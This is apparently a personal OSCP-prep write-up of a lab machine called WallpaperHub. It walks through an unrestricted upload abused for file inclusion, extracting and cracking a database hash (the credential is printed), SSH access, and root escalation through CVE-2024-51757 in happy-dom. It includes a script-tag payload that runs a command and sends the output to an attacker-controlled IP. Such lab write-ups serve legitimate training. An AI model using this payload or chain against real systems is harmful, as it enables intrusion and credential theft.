

**Start 09:02 20-05-2025**

---
```
Scope:
192.168.129.204
```

# Objectives

:::summary
This lab demonstrates the exploitation of an unrestricted file upload vulnerability in a wallpaper sharing platform. Learners will perform local file inclusion to extract sensitive files, retrieve a database with hashed credentials, and crack them for SSH access. Privilege escalation is achieved by exploiting a vulnerable happy-dom package (CVE-2024-51757) in a web scraping tool, ultimately gaining root access through a crafted HTML payload.
:::

## Attack WallpaperHub

- Perform an Nmap scan to discover open ports and services.

- Exploit the unrestricted file upload vulnerability to access sensitive system files.

- Extract and analyze the SQLite database to retrieve hashed user credentials.

- Crack the password hash and gain SSH access as a low-privileged user.

- Exploit CVE-2024-51757 in happy-dom to execute arbitrary code and escalate privileges to root.

## Recon

### Nmap

```bash
sudo nmap -sC -sV wallpaperhub -sT -vvvv -p- -Pn -T5 --min-rate=5000

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f2:5a:a9:66:65:3e:d0:b8:9d:a5:16:8c:e8:16:37:e2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGT2bbuknyDQCZL8wcewIxfJHCT3ZA9MHovHm5vV8gnY+WaklYD1KkExYX16RT7Du6kDkOd7/VtgT8wyumO7X74=
|   256 9b:2d:1d:f8:13:74:ce:96:82:4e:19:35:f9:7e:1b:68 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP9T+RtTpSheh2mjfbGIXvNadPVCLuheP1AqmUPx6yic
80/tcp   open  http    syn-ack Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
5000/tcp open  http    syn-ack Werkzeug httpd 3.0.1 (Python 3.12.3)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-server-header: Werkzeug/3.0.1 Python/3.12.3
|_http-title: Wallpaper Hub - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 5000/TCP - HTTP


I went ahead and registered an account called *test*:


I notice right away the **Upload Wallpaper** tab:


I uploaded a sample `.png` file to check out the inner workings of the site:


However the upload script is unrestricted and it let's me upload any file such as a webshell:


Since the application is running on `python` though, it will not execute `php` code thus we need to think of something else.

## LFI

I intercept the request with `burpsuite` and send the request to repeater where I modify the request as follows:


When I go ahead and press **Send** I get a response back that doesn't seem like it worked:


However when we check back on the website we see a fresh upload, click on it and we see the following:


Awesome! We were able to fetch the `/etc/passwd` list.

Now that we have performed **LFI** we need to find any sort of sensitive files containing cleartext or hashed credentials, my first though instantly went to `.ssh/id_rsa` but it looks like the user doesn't have any:


### SQLite Database

After a lot of guessing we find the `database.db` file location:


:::note
My first guess was the `/var/www/html` webroot, but turns out it's in the developer's home directory.
:::


Fairly small database, good!


:::note
The *test* user is us
:::

### Hashcat


```
wp_hub
qazwsxedc
```

## Foothold
### Shell as wp_hub

Using the found creds we log into `ssh`:



### local.txt


## Privilege Escalation
### Enumeration

I download over `linpeas` and get to work.

At first glance the system looks pretty bulletproof and up to date:


We do find something super interesting though:


Let's check the binary out.

### CVE-2024-51757


It's some `JS` code including a package called `happy-dom`, I've never heard of it before so I decide to look into it.


Seems pretty serious, good for us.

## Exploitation

I modified it as follows to test it out:

```js
<script src="http://192.168.45.179/'+require('child_process').execSync('id').toString()+'"></script>
```


On `kali` I launched a python webserver beforehand where I received the output:


It indeed executes commands under *root*.

I slightly modify the `pwn.html` file:


And launch it again:


:::fail
Unfortunately it failed this time, even if I URL encode it, guess we need to do it another way.
:::

Instead I went on to do the following:


I created a script called `pwn` as seen above.

I then used `chmod +x` on it to make it executable.

Inside my `pwn.html` file I added the following instead of the `id` command:


I now reran the script:


Good, we can now execute `/bin/bash -p` to escalate to a *root* shell within the same session:


### proof.txt


---

**Finished 10:34 20-05-2025**

[^Links]: [[OSCP Prep]]
